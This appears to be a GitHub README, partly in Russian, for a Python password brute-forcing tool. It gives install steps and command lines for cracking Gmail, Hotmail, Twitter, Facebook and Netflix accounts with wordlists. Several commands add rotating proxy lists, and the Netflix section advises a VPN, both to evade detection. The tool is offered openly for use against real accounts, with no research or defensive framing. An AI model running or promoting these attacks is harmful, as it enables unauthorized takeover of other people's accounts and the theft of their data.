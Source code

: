 ﻿# Brute_Force
[![Python 3.10.2](https://img.shields.io/badge/3.10.2-Python-blue.svg)](https://www.python.org/ftp/python/3.10.2/python-3.10.2-amd64.exe)
[![GPL](https://img.shields.io/badge/GPL-V3.0-red.svg)](https://www.gnu.org/licenses/gpl-3.0.html)
[![Termux](https://img.shields.io/badge/Termux-Android-brightgreen.svg)](https://termux.com/)
![platform](https://img.shields.io/badge/Platform-Linux%7CMacOS%7CWindows-brightgreen.svg)
![alt text](https://github.com/Kini-Noro/Brute/blob/main/.github/photo.PNG?raw=true)
## install :
```bash
sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize
```


# Usage:

## Брутфорс Gmail
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


## Брутфорс Hotmail
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


## Брутфорс Twitter

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt

```
## Брутфорс Facebook

```bash
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.txt
```
## Брутфорс Netflix

```bash

Предпочтительно работает VPN
Start On Vpn
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt


И с нетерпением ждем большего(^-^) 
```



